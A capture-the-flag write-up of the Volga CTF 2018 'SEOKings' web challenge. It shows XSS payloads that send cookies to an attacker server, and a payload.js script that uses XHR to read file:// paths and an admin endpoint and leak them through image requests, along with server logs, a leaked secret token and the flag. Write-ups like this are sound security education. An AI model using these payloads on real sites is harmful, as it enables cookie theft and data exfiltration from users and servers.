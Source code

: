It's write up of SEOKings ( points 350 ) web problem of Volga CTF 2018.

It was a long problem, also it was the first time, that I did some xss stuff.

Let's dive into the problem.

The website looks like this :

Main Page
    Main Page


You can see the Try button, and the input box above it, where you can insert the website for the company to have a look at.

At first I tried looking for 'robots.txt' on the site but it didn't reveal anything, except something about a 'config.ru' file ( look at the bottom of the page, in red ).

Robots.txt - /opt/seo-kings/config.ru
    Robots.txt - /opt/seo-kings/config.ru

Then I tried '/admin' directory, just some common directory , well this is what I got :

    Admin - Please, use local IP

Now, it was certain that you can't directly access it, so I started looking into ways to access it from local IP.

Searching around I stumbled upon a NULLCon '13 question's write-up here, through this I came to know about an accidentally found bug in stackoverflow through a header as mentioned here.

So I set it like this :

`X-Forwarded-For: 127.0.0.1`

Still the same, tried with localhost but nothing changed. Then it clicked me, maybe XSS might work. I made a simple script to get the cookie like this ( It's the most basic of XSS perhaps ) :

```
" /><img src="x" onerror="http://my_server_ip/?cookie='+document.cookie'"></img>
```

but it didn't work, then I changed it a bit to this :

```
" /><img src="http://my_server_ip/?cookie='+document.cookie'"></img>
```

and lo behold I got a ping on my server, however as there wasn't any cookie so I didn't get any but the point is XSS 's working.

```
188.246.233.46 - - [24/Mar/2018:17:56:25 +0000] "GET / HTTP/1.1" 200 3525 "http://localhost:8080/validator?site=%22%20/%3E%3Cimg%20src=%22http://my_server_ip_here/%22%3E%3C/img%3E" "Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/534.34 (KHTML, like Gecko) PhantomJS/1.9.8 Safari/534.34"
```

So, now I had to get the bot ( phantomJS ) to visit '/admin' , somehow .

I tried adding iframes to the page and accessing it's content but I wasn't getting anything.

Told the admin about it, he suggested instead of iframe I should try using xhr. Well it was the first time I was doing xss , so I didn't thought I might actually solved it. By now it was 4 am ( IST ) and I had been doing it for the past 4 hours with somewhat little progress.

I started back after some good sleep and trying on some other problems. Later in the afternoon I made a simple script called payload.js to get the page using xhr and it's contents.
```
try{
    var data = null;
    var xhr = new XMLHttpRequest();
    //xhr.withCredentials = true;
    xhr.addEventListener("readystatechange", function () {
      if (this.readyState === 4) {
        new Image().src="http://my_server_ip/?from_admin_payload="+this.responseText;
      }
     else{
       new Image().src="http://my_server_ip/?xhr_not_executed";
      }
   });
  xhr.open("GET", "/admin");
  xhr.send(data);
}
catch(err){
  new Image().src="http://my_server_ip/?err="+err.message;
}
```
Well this also didn't help much, I wasn't getting anything, after 15 minutes I thought maybe I might be getting something in the headers, changed the JS code, added this

new Image().src="http://my_server_ip/?rsp_headers="+String(this.getAllResponseHeaders());

Still nothing :(

Well, it definitely has something evil going on, by now only one hour was left for the CTF to end, I asked one of the admins, he suggested I use file protocol to get 'some file'. Well file protocol, is used to access files on local system. Now, it clicked to me about the hint on 'robots.txt' page /opt/seo-kings/config.ru

I changed last line of the xhr request to this :

```
xhr.open("GET", "file:///opt/seo-kings/config.ru");
```

Nothing worked, now it was confusing , I pinged the admin again and it was silly of me to make the request 'asynchronously', well I don't know js much, and as the clock was ticking so didn't care to look for the function definition of xhr.open() , the third parameter was to be made false to make a synchronous request.

The whole script was generated by '**Postman**', I just made the request and clicked on it's code option to get a xhr code ( sweet :p ). So, obviously I didn't know about the synchronous/ asynchronous thing here.

Anyway coming back to the point, I changed it to :

```
xhr.open("GET", "file:///opt/seo-kings/config.ru", false);
```

Well, now I was getting something, decoded the url-encoded string to this :

```
require 'sinatra'
require "open-uri"
require 'openssl'
require 'uri'
require 'sinatra/base'
Dir.glob('./app/{controllers}/*.rb').each { | file | require file
}
map('/') {
    run MainController
}
map('/admin') {
    run AdminController
}

```
Well now, only 15 minutes were left, it was the first time I had seen **sinatra** web application, quickly
googled the directory structure of it and got this here

So, I had to get the file `'/opt/seo-kings/controllers/admin_controller.rb`.
I quickly changed it the script and got the file like this :
```
require './app/controllers/application_controller.rb'
class AdminController < ApplicationController OpenSSL::SSL::VERIFY_PEER = OpenSSL::SSL::VERIFY_NONE SECRET_TOKEN = "d595462f496fd347796b60b605b72ff6"
get '/'
do
    if local ? token = params[: token]
if (token == SECRET_TOKEN) @flag = Flagclass::FLAG erb: flag end
else "Please, use local ip"
end
end end 
```
Well so I had to add a `GET` parameter named `token` to the **admin** endpoint to get it.
So, finally I changed the `payload.js` to this :

```
try{
var data = null;

var xhr = new XMLHttpRequest();
var url = "http://my_server_ip/?";
xhr.addEventListener("readystatechange", function () {
  if (this.readyState === 4) {
//	new Image().src=url+JSON.stringify(this);
	new Image().src=url+"from_admin_payload="+String(this.responseText);
//	var responseHeaders = this.getAllResponseHeaders();
//	new Image().src=url+"rsp_headers="+String(this.getAllResponseHeaders());
  }
else{
	new Image().src=url+"xhr_not_executed";
	new Image().src=url+JSON.stringify(this.responseText);

}
});
var base = "file:///opt/seo-kings/"
var filename = "app/controllers/admin_controller.rb"
//xhr.open("GET", base+filename,false);
xhr.open("GET", "/admin?token=d595462f496fd347796b60b605b72ff6",false);
xhr.send(data);
}
catch(err){
	new Image().src="http://my_server_ip/?err="+err.message;
}
```
And lo behold here comes the flag :

```
<!DOCTYPE html>
<html>

<head>
    <title></title>
</head>

<body>VolgaCTF{hope_it_was_like_madness}</body>

</html> 
```

Well, as mentioned earlier, the CTF had ended 5 minutes earlier .

But it was fun challenge and definitely got me to learn a lot many things about XSS.

Thanks.
